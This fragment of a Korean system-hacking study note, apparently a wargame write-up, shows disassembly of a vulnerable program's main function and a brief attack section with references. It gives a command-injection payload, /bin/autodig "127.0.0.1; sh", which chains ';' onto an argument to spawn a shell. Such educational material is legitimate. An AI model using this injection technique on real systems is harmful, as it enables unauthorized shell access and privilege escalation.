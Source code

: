 ```
         - 시스템 함수 실행
    0x080484d5 <main+165>:  add    $0x10,%esp
    0x080484d8 <main+168>:  leave
    0x080484d9 <main+169>:  ret
    0x080484da <main+170>:  nop
    0x080484db <main+171>:  nop
```

공격

 - 문자열이 2개이상 입력 되면 안됨  
 - " " 를 사용하여 하나의 문자열로 전송   
 - 유닉스 계열에서 연속적인 명령어 전달을 하기 위해서 ; 사용   
 - /bin/autodig "127.0.0.1; sh"  




참고문헌
---

[1] 문제풀이로 배우는 시스템 해킹 테크닉, 여동기 저, 위키북스  

[2] Command Injection  
    <https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/>

[3] Command Injection 정의  
    <https://www.owasp.org/index.php/Command_Injection>
